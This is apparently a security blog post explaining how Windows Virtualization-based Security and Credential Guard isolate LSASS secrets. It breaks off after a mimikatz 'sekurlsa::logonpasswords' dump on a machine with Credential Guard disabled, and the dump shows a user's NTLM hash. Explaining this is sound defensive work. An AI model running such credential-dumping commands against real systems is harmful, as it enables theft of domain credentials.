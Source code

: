 The marked text from the Microsoft article about Credential Guard is partially right. Processes from within the OS cannot extract secrets, but the OS is able to reach the VBS process. To be continued….

## How does VBS/Credential Guard work?

According to Microsoft: “Virtualization-based security, or VBS, uses hardware virtualization and the Windows hypervisor to create an isolated virtual environment that becomes the root of trust of the OS that assumes the kernel can be compromised. “Credential Manager then isolates these secrets by using Virtualization-based security (VBS). These secrets are NTLM hashes and Kerberos tickets.

### **LSA & LSASS**

Without VBS/Credential Guard enabled, Windows stores secrets in temporary in memory within the LSA (Local Security Authority) using the LSASS (Local Security Authority Subsystem Service). 

When Credential Guard is enabled, a process called LSAIso (LSA Isolated) runs inside the secure VM  (virtual machine). LSASS and LSAIso can communicate through advanced local procedure calls (ALPCs).

To better understand, Microsoft created a image visually showcasing how this works:
        
![](/assets/img/posts/credential-guard/1.png)

## The difference between enabled/disabled credential guard

We will first see what really is the difference between a enabled and disabled VBS + Credential Guard. We will dump secrets from the LSASS using [mimikatz](https://github.com/gentilkiwi/mimikatz). 

### **Disabled credential guard**

A user “MrX” in the domain “Powercorp” has stored secrets within the LSASS. We managed to compromise the system and dump the LSASS process memory and read the logonpasswords using mimikatz.

```bash
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1079802 (00000000:001079fa)
Session           : Interactive from 0
User Name         : MrX
Domain            : POWERCORP
Logon Server      : DC01
Logon Time        : 4/16/2024 8:39:33 AM
SID               : S-1-5-21-2327940651-2805324425-2454453111-1105
        msv :
         [00000003] Primary
         * Username : MrX
         * Domain   : POWERCORP
         * NTLM     : **58a478135a93ac3bf058a5ea0e8fdb71**
```